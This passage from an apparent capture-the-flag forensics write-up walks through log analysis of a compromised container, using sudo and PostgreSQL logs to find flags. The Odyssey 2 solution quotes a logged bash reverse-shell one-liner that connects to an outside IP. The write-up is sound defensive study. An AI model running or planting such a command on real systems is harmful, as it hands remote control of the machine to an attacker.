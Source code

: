 ``` text
Apr 18 06:10:06 4853fe8cb6a2 sudo: pam_unix(sudo:session): session opened for user root by (uid=0)
```

**Flag:** `Apr 18 06:10:06`

## Odyssey 2

### Odyssey 2 - Challenge

What is the IP address of the client that abused a legitimate service to access this container?

### Odyssey 2 - Solution

In the previous section we saw that the only unique directories in `/var/log` were `postgresql` and `exim4`.
Let's dig into postgres.

{% highlight bash %}
cd /var/log/postgresql
cat postgresql-2020-04-18_060048.csv
{% endhighlight %}

Skimming the file a few things look a tad peculiar, but this line in particular is a dead giveaway that a reverse shell has been dropped.

``` text
...[truncated]
2020-04-18 06:07:34.075 UTC,"ulysses","ithaca",131,"172.17.0.3:37542",5e9a9827.83,7,"idle",2020-04-18 06:03:19 UTC,3/11,0,LOG,00000,"statement: INSERT INTO scylla(t) VALUES('bash -i >& /dev/tcp/192.168.1.222/9292 0>&1');",,,,,,,,,"psql"
...
```

Luckily, this line also gives us the flag.

**Flag:** `172.17.0.3`

## Odyssey 3

### Odyssey 3 - Challenge

What is the name of the postgres user on this container?

### Odyssey 3 - Solution

Continuing from the previous section, and assuming you're in the docker container like I was.

{% highlight bash %}
ls -l
{% endhighlight %}

``` text
-rw------- 1 postgres postgres 8357 Apr 18 06:11 postgresql-2020-04-18_060048.csv
-rw------- 1 postgres postgres  312 Apr 18 06:00 postgresql-2020-04-18_060048.log
```
